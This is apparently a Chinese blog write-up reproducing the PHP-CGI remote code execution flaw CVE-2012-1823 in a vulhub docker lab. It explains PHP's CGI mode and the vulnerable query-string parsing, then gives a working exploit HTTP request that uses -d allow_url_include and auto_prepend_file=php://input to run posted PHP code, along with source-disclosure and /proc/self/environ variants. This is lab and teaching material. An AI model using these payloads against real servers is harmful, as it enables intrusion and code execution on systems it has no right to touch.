








---
title: "CVE-2012-1823漏洞复现"
date: 2025-06-06T18:09:07+08:00
summary: "CVE-2012-1823漏洞复现"
url: "/posts/CVE-2012-1823漏洞复现/"
categories:
  - "CVE"
tags:
  - "漏洞复现"
draft: false
---

## 漏洞信息

## 0x01漏洞介绍

一个PHP-CGI远程代码执行漏洞



我们先看一下修复版本修复了什么



修复了PHP-CGI查询字符串参数的漏洞，并指明了CVE的序列号，也就是我们现在要复现的漏洞

这个的话跟源码有关，我们去找一下漏洞版本的源码看一下，我这里下载的是5.3.11版本的，首先我们先了解一下PHP的运行模式

### PHP运行模式

PHP的运行模式主要是由SAPI决定的，我们最熟悉的就是cli模式以及cgi模式了

先讲讲**cgi模式**

CGI模式是指旧时代web容器接收到http数据包后，拿到用户请求的文件（cgi脚本），并fork出一个子进程（解释器）去执行这个文件，然后拿到执行结果，直接返回给用户，同时这个解释器子进程也就结束了，特点就是每次请求都需要启动一个子进程，性能较差

然后我们讲讲现代web应用较为推荐的一种模式也就是php-FPM模式

php-FPM模式是通过FastCGI协议与web服务器进行通信的，而PHP-FPM 是 PHP 的 FastCGI 进程管理器，用于管理 PHP 进程池。其特点就是进程池管理、高并发、低资源占用，可以完全代替之前CGI模式

### 关于SAPI

下载PHP源码，可以看到其中有个目录叫sapi。sapi在PHP中的作用，类似于一个消息的“传递者”，是PHP的核心接口，用于定义PHP如何与外部环境交互的。而不同的sapi决定了PHP的运行方式，其中php-cgi也是一种sapi，他的功能有两个，一个是提供cgi方式的交互，另一个是提供fastcgi方式的交互，PHP-CGI可以fork出一个子进程，让解释器执行这个文件，也可以将进程常驻后台，执行后返回结果。

然后我们看漏洞源码

### 漏洞源码

在 `sapi/cgi/cgi_main.c` 文件中，以下代码片段负责处理 `QUERY_STRING`

```c
if ((query_string = getenv("QUERY_STRING")) != NULL && *query_string) {
    if (php_cgi_parse_query_string(query_string, &argc, &argv) == FAILURE) {
        return FAILURE;
    }
}
```

- 这里的话会从环境变量中获取QUERY_STRING的值（即请求中?号后的部分例如index.php?a=1中的a=1），并返回一个字符串指针
- 然后会检查 `query_string` 是否非空（`NULL`）且第一个字符不是 `\0`（空字符）。
- 之后会将`QUERY_STRING` 解析为命令行参数（类似 `main(int argc, char **argv)` 的格式）。

### 漏洞原理

简单来说，就是用户请求的`querystring`被作为了`php-cgi`的参数，最终导致了可以利用参数进行攻击

## 0x02影响版本

**php < 5.3.12 or php < 5.4.2**

## 环境搭建&漏洞利用

### 环境搭建

我们先启动靶场环境，在/vulhub/php/CVE-2012-1823中

```
docker-compose up -d
```



看一下docker文件，是8080端口，访问8080端口



然后我们开始复现

在cgi模式下有如下一些参数可用：

- -c 指定php.ini文件的位置
- -n 不要加载php.ini文件
- -d 指定配置项
- -b 启动fastcgi进程
- -s 显示文件源码
- -T 执行指定次该文件
- -h和-? 显示帮助

### 漏洞利用

1.最简单的就是获取源码了，也就是用-s参数显示文件源码

之前也分析过漏洞点了，那我们尝试获取一下index.php的源码，用-s参数



2.第二个就是可以打任意文件包含的漏洞，用-d参数指定php配置项例如使用`-d`指定`auto_prepend_file`

```
-d allow_url_include=on -d auto_prepend_file=php://input
```

使用`-d`参数可以配合`php.ini`中的配置文件打文件包含

- `allow_url_include`: 允许包含远程机器的文件，这个需要打开，不然没法打文件包含
- `auto_prepend_file`: 页面顶部加载的内容
- `auto_append_file`: 页面底部加载的内容
- `php://input`: 通过`POST`方式提交数据，这里运用的很巧妙，使用`post`方式提交需要包含的PHP代码

我们抓包试一下

```
GET /?-d+allow_url_include%3Don+-d+auto_prepend_file%3Dphp%3A%2F%2Finput HTTP/1.1
Host: 38.55.99.239:8080
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate

<?php phpinfo();?>
```

放包后



所以也可以直接执行命令



当然我们也可以打远程包含，这里就不演示了

也可以通过包含/proc/self/environ本地文件进行远程代码执行

修改`User-Agent`为PHP代码，查看`HTTP_USER_AGENT`值



至此漏洞利用完成
